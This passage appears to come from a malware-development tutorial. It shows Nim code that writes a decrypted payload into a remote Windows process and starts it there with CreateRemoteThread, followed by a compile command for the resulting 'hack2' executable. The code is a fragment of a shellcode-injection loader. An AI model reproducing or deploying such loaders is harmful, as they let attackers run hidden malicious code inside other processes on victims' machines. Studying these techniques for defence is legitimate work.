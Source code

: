```nim
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](plaintext.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

### demo 2

Compile practical example 2:    

```bash
nim c -d:mingw --cpu:amd64 hack2.nim
```

![cryptography](/assets/images/122/2024-06-06_13-12.png){:class="img-responsive"}     
